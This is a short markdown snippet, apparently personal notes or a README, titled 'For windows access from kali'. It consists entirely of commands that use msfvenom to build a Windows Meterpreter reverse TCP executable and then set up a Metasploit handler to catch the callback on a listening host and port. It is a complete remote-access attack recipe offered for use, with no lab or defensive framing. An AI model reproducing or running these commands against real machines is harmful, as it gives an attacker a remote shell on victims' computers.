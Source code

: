 ## For windows access from kali 
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=2.0.0.4 LPORT=4444 -f exe -o payload.exe

msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 2.0.0.4
set LPORT 4444
exploit
```
